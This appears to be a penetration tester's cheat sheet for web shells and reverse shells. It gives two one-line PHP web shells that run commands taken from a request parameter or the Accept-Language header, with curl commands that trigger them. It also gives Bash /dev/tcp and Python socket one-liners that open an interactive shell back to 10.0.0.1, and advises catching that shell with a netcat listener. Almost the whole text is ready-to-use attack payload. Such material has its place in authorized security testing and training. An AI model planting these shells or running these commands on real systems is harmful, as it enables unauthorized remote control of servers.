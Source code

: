 # simple shell using get
    <?php system($_REQUEST['c']); ?>
then 
    `curl http://example.com?c=whoami`

# simple shell using http header
    <?php passthru(getenv('HTTP_ACCEPT_LANGUAGE')); ?>
then `curl http://example.com -H "Accept-Language: command"`

Make sure commands are URL encoded

# Reverse shell commands
These commands can be passed as the payload once you ahve a webshell to create a more persistent shell. Make sure to create a corresponding listening service using netcat to catch the shell.

Syntax Note: bash -c '{{ shell command }}'

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
## Python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
